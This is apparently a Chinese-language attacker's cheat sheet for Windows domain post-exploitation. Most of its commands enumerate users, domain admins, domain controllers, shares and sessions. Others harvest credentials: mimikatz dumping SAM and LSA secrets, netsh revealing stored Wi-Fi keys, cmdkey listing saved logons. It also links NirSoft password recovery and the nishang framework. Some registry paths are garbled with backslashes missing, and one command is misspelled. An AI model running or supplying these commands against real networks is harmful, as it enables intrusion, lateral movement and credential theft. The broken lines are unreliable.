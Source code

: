 query user || qwinsta 查看当前在线用户

net user  查看本机用户

net user /domain 查看域用户

net view & net group "domain computers" /domain 查看当前域计算机列表 第二个查的更多

net view /domain 查看有几个域

net view \\\\dc   查看 dc 域内共享文件

net group /domain 查看域里面的组

net group "domain admins" /domain 查看域管

net localgroup administrators /domain   /这个也是查域管，是升级为域控时，本地账户也成为域管

net group "domain controllers" /domain 域控

net time /domain 

net config workstation   当前登录域 - 计算机名 - 用户名

net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源

ipconfig

systeminfo

tasklist /svc

tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist

net localgroup administrators && whoami 查看当前是不是属于管理组

netstat -ano

nltest /dclist:xx  查看域控

whoami /all 查看 Mandatory Label uac 级别和 sid 号

net sessoin 查看远程连接 session (需要管理权限)

net share     共享目录

cmdkey /l   查看保存登陆凭证

echo %logonserver%  查看登陆域

spn –l administrator spn 记录

set  环境变量

dsquery server - 查找目录中的 AD DC/LDS 实例

dsquery user - 查找目录中的用户

dsquery computer 查询所有计算机名称 windows 2003

dir /s *.exe 查找指定目录下及子目录下没隐藏文件

arp -a

发现远程登录密码等密码 netpass.exe  下载地址：

https://www.nirsoft.net/utils/network_password_recovery.html
获取 window vpn 密码：

mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  
wifi 密码：

netsh wlan show profile 	查处 wifi 名

netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码
ie 代理

reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 

Settings" /v ProxyServer

reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"
pac 代理

reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 

Settings" /v AutoConfigURL   //引子 t0stmail
powershell-nishang

https://github.com/samratashok/nishang